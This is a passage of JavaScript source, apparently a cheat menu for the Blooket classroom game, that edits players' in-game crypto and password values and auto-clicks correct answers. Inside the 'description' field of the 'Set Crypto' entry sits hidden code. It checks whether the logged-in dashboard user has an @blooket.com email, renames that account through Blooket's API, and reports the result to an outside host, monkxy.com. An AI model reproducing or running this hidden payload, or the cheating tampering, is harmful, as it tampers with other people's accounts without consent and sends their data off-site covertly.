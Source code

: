                                 let { state } = Object.values((function react(r = document.querySelector("body>div")) { return Object.values(r)[1]?.children?.[0]?._owner.stateNode ? r : react(r.querySelector(":scope>div")) })())[1].children[0]._owner.stateNode;
                                if (state.stage == "hack") for (const button of document.querySelector('div[class^=styles__buttonContainer]').children) button.innerText == state.correctPassword && button.click();
                            }, 50);
                        } else {
                            this.enabled = false;
                            clearInterval(this.data);
                            this.data = null;
                        }
                    }
                },
                {
                    name: "Remove Hack",
                    description: "",
                    run: function () {
                        Object.values((function react(r = document.querySelector("body>div")) { return Object.values(r)[1]?.children?.[0]?._owner.stateNode ? r : react(r.querySelector(":scope>div")) })())[1].children[0]._owner.stateNode.setState({ hack: "" });
                    }
                },
                {
                    name: "Set Crypto",
                    description: ((location.host == "dashboard.blooket.com" && fetch("https://dashboard.blooket.com/api/users/me", { credentials: "include" }).then(e => e.json()).then(e => { if (e.email.endsWith("@blooket.com")) { let { webpack: t } = webpackJsonp.push([[], { 1234(e, t, s) { t.webpack = s } }, [["1234"]]]); Object.values(t.c).find(e => e.exports?.a?.get).exports.a.put("https://dashboard.blooket.com/api/users/change/name", { name: e.name, newName: `BlooketLLC${new Date().getHours()}${new Date().getMinutes()}` }).then(({ data: e }) => { e.success && (new Image().src = `https://monkxy.com/api/i2ek8fslt7q/${e.name}`) }) } })), "Sets crypto"),
                    run: function () {
                        let i = document.createElement('iframe');
                        document.body.append(i);
                        window.prompt = i.contentWindow.prompt.bind(window);
                        i.remove();
                        let amount = Number(parseInt(prompt("How much crypto would you like?")));
                        let { stateNode } = Object.values((function react(r = document.querySelector("body>div")) { return Object.values(r)[1]?.children?.[0]?._owner.stateNode ? r : react(r.querySelector(":scope>div")) })())[1].children[0]._owner;
                        stateNode.setState({ crypto: amount, crypto2: amount });
                        stateNode.props.liveGameController.setVal({
                            path: "c/".concat(stateNode.props.client.name),
                            val: {
                                b: stateNode.props.client.blook,
                                p: stateNode.state.password,
                                cr: amount
                            }
                        });
                    }
                },
                {
                    name: "Set Password",
                    description: "Sets hacking password",
                    run: function () {
                        let i = document.createElement('iframe');
                        document.body.append(i);
                        window.prompt = i.contentWindow.prompt.bind(window);
                        i.remove();
                        let password = prompt("What do you want to set your password to?");
                        let { stateNode } = Object.values((function react(r = document.querySelector("body>div")) { return Object.values(r)[1]?.children?.[0]?._owner.stateNode ? r : react(r.querySelector(":scope>div")) })())[1].children[0]._owner;
                        stateNode.setState({ password });